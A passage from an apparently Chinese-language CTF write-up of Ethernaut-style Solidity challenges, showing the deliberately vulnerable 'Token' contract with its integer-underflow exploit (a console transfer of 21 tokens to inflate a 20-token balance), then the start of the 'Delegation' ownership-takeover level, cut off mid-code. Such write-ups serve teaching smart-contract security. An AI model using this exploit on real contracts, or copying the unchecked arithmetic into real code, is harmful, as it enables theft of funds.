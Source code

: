 

## Token

增加自己的token

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

每个人初始token20

`balances` 和 `value` 都是 uint，整数溢出，给任意地址转账21，就能让自己账户20-21产生溢出

```js
await contract.transfer('0xB2659555846f4732008152C78dEA6B7Acba11B4D',21)
//给任意地址转21，这里拿实例地址用了
await contract.balanceOf(player)
//查看自己的token，变为一个很大的数
```

## Delegation

拿到合约所有权

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
```